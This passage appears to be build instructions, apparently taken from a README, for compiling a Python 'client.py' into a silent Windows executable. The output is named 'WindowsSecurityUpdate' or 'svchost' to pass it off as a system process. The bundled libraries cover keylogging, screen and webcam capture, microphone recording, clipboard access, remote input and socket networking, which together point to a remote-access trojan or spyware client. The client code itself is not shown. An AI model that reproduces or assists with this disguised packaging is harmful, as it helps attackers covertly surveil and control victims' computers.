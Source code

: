 #### **Option A: Quick Build (Simple, Works Immediately)**

```bash
pyinstaller --onefile --noconsole --name "WindowsSecurityUpdate" client.py
```

**What this does:**
- `--onefile` - Creates single `.exe` file (not a folder)
- `--noconsole` - No console window (runs silently)
- `--name "WindowsSecurityUpdate"` - Output filename
- `client.py` - Source file to build

**Output:**
- `dist/WindowsSecurityUpdate.exe` (ready to use!)

---

#### **Option B: Optimized Build (Recommended)**

Create a file named `build.bat`:

```batch
@echo off
echo ========================================
echo Building Client.exe with PyInstaller
echo ========================================

pyinstaller ^
  --onefile ^
  --noconsole ^
  --name "svchost" ^
  --hidden-import=win32timezone ^
  --hidden-import=win32api ^
  --hidden-import=win32con ^
  --hidden-import=win32security ^
  --hidden-import=win32process ^
  --hidden-import=win32event ^
  --hidden-import=win32clipboard ^
  --hidden-import=socketio ^
  --hidden-import=socketio.client ^
  --hidden-import=engineio ^
  --hidden-import=engineio.client ^
  --hidden-import=aiohttp ^
  --hidden-import=websockets ^
  --hidden-import=psutil ^
  --hidden-import=mss ^
  --hidden-import=PIL ^
  --hidden-import=cv2 ^
  --hidden-import=pyautogui ^
  --hidden-import=pynput ^
  --hidden-import=pyaudio ^
  --collect-all socketio ^
  --collect-all engineio ^
  --collect-all aiohttp ^
  --collect-all websockets ^
  client.py

echo ========================================
echo Build complete! Check dist/svchost.exe
echo ========================================
pause
```
